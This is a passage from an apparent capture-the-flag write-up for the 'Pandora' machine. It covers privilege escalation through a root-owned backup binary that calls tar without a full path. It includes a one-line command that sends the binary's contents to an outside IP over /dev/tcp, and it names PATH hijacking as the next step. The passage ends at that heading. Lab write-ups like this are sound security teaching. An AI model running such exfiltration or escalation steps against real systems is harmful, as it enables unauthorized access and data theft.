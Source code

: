 Running `linpeas.sh` revealed interesting binary `/usr/bin/pandora_backup`, which belongs to `root` but can be executed by user `matt`. The fact that this binary is owned by root means that any command inside will be executed with root privileges.

![backupFile.png](/assets/img/Pandora/backupFile.png)

#### Transferring binary to local machine

To analyze this binary, I first transferred it to my local machine. 

```bash
cat /usr/bin/pandora_backup  > /dev/tcp/10.10.14.34/7007
```

![filetrans2.png](/assets/img/Pandora/filetrans2.png)

#### Analyzing binary with Ghidra

Looking at the `main` function, I saw that `tar` is being executed without specifying full path. This can be exploited by doing path hijacking. 

![ghidra.png](/assets/img/Pandora/ghidra.png)

#### Path Hijacking
